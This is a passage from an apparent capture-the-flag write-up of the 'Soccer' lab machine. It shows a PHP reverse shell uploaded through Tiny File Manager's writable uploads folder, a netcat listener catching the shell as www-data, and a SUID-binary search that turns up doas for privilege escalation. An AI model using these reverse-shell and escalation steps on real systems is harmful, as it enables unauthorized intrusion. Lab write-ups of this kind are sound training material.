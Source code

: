 ![tiny/uploads permissions](TinyUploadsPermissions.png)

Uploading a [PHP reverse shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) yielded remote code execution as www-data.

```sh
❯ nc -lvnp 4444
Command executed at: 2025-03-18 08:17:31
listening on [any] 4444 ...
connect to [10.10.14.7] from (UNKNOWN) [10.129.127.215] 34250

www-data@soccer:/$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

> Tiny File Manager 2.4.3 is known to suffer from a path traversal vulnerability (CVE-2023-26565), though in this case, the `uploads` folder was already writable, enabling RCE without requiring directory traversal.

## Internal Enumeration as www-data

Searching for SUID binaries exposed **/usr/local/bin/doas**, and its config file showed that the `player` user could execute /usr/bin/dstat as root:

```sh
www-data@soccer:/$ find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null
-rwsr-xr-x 1 root root 42224 Nov 17  2022 /usr/local/bin/doas
...
```
